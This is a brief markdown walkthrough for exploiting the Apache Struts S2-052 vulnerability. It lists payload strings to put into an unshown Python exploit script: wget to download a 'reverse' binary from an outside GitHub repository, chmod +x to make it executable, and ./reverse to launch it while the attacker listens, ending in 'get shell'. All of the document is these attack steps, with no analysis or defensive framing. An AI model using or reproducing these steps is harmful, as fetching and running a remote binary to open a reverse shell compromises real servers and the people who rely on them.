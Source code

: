 # S2-052

- keypoint: change the command in python file (between line 14 and 16 actually 15)

- <string>wget</string><string>https://github.com/boson13579/Container-breakout/raw/master/reverse</string>

- excute python

- <string>chmod</string><string>+x</string><string>reverse</string>
 
- excute python

- attacker start listening

- <string>./reverse</string>

- excute python

- get shell
